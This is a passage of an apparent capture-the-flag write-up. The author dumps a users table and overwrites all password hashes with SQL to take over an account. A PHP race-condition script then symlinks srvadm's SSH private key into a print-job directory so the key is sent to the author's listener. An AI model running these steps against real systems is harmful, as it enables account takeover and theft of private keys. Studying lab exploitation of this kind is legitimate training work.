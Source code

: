 > ![](https://i.ibb.co/f9g592J/dumping.png)

> **select * from quick.users;**

> ![](https://i.ibb.co/FmHrsYG/emailspasswords.png)

> i couldn't decrypt the password of srvadm so i changed the hashs to the eilsa password hash.

> **UPDATE users SET password='c6c35ae1f3cb19438e0199cfa72a9d9d';**

> now we can login to printer with elisa password.

> ![](https://i.ibb.co/crMXQ3H/showprinter.png)

> now there is file in **/var/www/printer/**. this is file vulnerable to **Race Condition**.

> ![](https://i.ibb.co/F4Ctv2c/job.png)

> What the file is doing is making a file with name of the timestamp.And if we read the content of the file it is sending the file to print it to the ip of a specified port, If you look at the ad-printer from the printer subdomain there is an ip and port to be specified.

> ![](https://i.ibb.co/YdNJbWC/addprinter.png)

> we have read/write permissions to the directory /var/www/jobs/ right? so i will symlink the id_rsa of srvadm and start a listener on the port that i specified on add_printer.php and then access the file job.php.

* here is my script for this point --> **Race Condition Script**.

```ruby

<?php

$dir = '/var/www/jobs/';

function over ($file) {
        echo $file;
        unlink($file);
        symlink('/home/srvadm/.ssh/id_rsa', $file);
}

while (true) {
        $files = scandir($dir);
        foreach ($files AS $file) {
                if ($file{0} === '.') {
                        continue;
                }
                $f = $dir . $file;
                if (is_file($f) && !is_link($f)) {
                        over($f);
                }
                break;
        }
}
?>

```
